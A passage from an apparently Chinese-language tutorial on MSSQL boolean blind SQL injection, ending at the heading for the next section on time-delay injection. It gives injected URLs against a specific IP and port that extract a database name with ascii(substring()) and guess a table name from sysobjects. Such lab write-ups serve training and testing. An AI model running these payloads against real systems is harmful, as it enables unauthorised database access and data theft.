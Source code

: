 ```
http://219.153.49.228:40768/new_list.asp?id=2 and ascii(substring((select top 1 db_name()),1,1))=109
http://219.153.49.228:40768/new_list.asp?id=2 and ascii(substring((select top 1 db_name()),1,1))&gt;109
```

[![](https://p5.ssl.qhimg.com/t0116e04363840e9a62.png)](https://p5.ssl.qhimg.com/t0116e04363840e9a62.png)

[![](https://p3.ssl.qhimg.com/t015abf97111fa1b9af.png)](https://p3.ssl.qhimg.com/t015abf97111fa1b9af.png)

3、查询第二个字符的ascii码为111

```
http://219.153.49.228:40768/new_list.asp?id=2 and ascii(substring((select top 1 db_name()),2,1))=111
```

[![](https://p5.ssl.qhimg.com/t01e337930ebb104e75.png)](https://p5.ssl.qhimg.com/t01e337930ebb104e75.png)

4、获取所有ascii码之后，解码获取数据

[![](https://p1.ssl.qhimg.com/t011e5c21dc29f4e03b.png)](https://p1.ssl.qhimg.com/t011e5c21dc29f4e03b.png)

### <a class="reference-link" name="2%E3%80%81%E6%9F%A5%E8%AF%A2%E8%A1%A8%E5%90%8D"></a>2、查询表名

除了像上面查询库名使用了ascii码外，还可以直接猜解字符串

```
http://219.153.49.228:40768/new_list.asp?id=2 and substring((select top 1 name from dbo.sysobjects where xtype='U'),1,1)='m'
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019bb4ff316062345b.png)

```
http://219.153.49.228:40768/new_list.asp?id=2 and substring((select top 1 name from dbo.sysobjects where xtype='U'),1,6)='manage'
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017026272920723c8d.png)



## 0x06 延时盲注

### <a class="reference-link" name="1%E3%80%81%E5%BB%B6%E6%97%B6%E5%87%BD%E6%95%B0%20WAITFOR%20DELAY"></a>1、延时函数 WAITFOR DELAY
